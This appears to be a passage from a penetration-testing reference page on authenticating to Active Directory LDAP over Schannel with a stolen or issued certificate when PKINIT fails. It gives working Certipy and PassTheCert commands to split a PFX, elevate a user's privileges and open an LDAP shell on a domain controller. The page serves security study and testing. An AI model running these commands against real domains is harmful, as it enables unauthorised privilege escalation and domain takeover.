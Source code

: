 ## Theory
Sometimes, Domain Controllers do not support PKINIT. This can be because their certificates do not have the Smart Card Logon EKU. Most of the time, domain controllers return `KDC_ERR_PADATA_TYPE_NOSUPP` error when the EKU is missing. Fortunately, several protocols — including LDAP — support Schannel, thus authentication through TLS. As the term "schannel authentication" is derived from the Schannel SSP (Security Service Provider) which is the Microsoft SSL/TLS implementation in Windows, it is important to note that schannel authentication is a SSL/TLS client authentication.

## Exploit 
=== "UNIX-like"
    Tools like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (python version) and [Certipy](https://github.com/ly4k/Certipy) can be used to authenticate with the certificate via Schannel against LDAP.
    ```bash
    # If you use Certipy to retrieve certificates, you can extract key and cert from the pfx by using:
    certipy cert -pfx user.pfx -nokey -out user.crt
    certipy cert -pfx user.pfx -nocert -out user.key

    # elevate a user (it assumes that the domain account for which the certificate was issued, holds privileges to elevate user)
    passthecert.py -action modify_user -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1" -target user_sam -elevate

    # spawn a LDAP shell
    passthecert.py -action ldap-shell -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1"
    certipy auth -pfx -dc-ip "10.0.0.1" -ldap-shell
